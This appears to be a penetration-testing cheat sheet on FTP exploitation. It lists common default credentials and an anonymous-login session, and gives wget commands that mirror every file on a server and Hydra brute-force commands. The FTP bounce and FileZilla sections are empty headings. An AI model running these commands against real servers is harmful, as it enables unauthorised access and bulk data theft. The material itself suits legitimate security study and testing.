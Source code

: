 ```yaml
---
id: Exploitation
aliases: []
tags:
  - Networking/Services/FTP/Exploitation
links: "[[FTP]]"
---
```


# FTP Exploitation

## Common credentials

```
anonymous : anonymous
_anonymous :
_ftp : ftp
admin : admin
administrator : administrator
root : root
ftpuser : ftpuser
test : test
```

## Anonymous login

```sh
ftp <ip>
>anonymous
>anonymous
>binary # set transmission to binary instead of ASCII
>ascii # set transmission to ASCII instead of binary

```

Anonymous login example

```sh
ftp -p 10.129.42.253

Connected to 10.129.42.253.
220 (vsFTPd 3.0.3)
Name (10.129.42.253:user): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Download all files

```sh
wget -m ftp://anonymous:anonymous@<ip>
wget -m --no-passive ftp://anonymous:anonymous@<ip>
```

## Brute force

Hydra

```sh
hydra -l {target_user} -P {password_list} <target_ip> ftp
hydra -L {users_list} -p {password} ftp://<ip>
```

## FTPBounce attack

## Filezilla Server Vulnerability

___

# FTP Post-Exploitation

Download all files

```sh
wget -r --user="USERNAME" --password="PASSWORD" ftp://<server_address>/
```
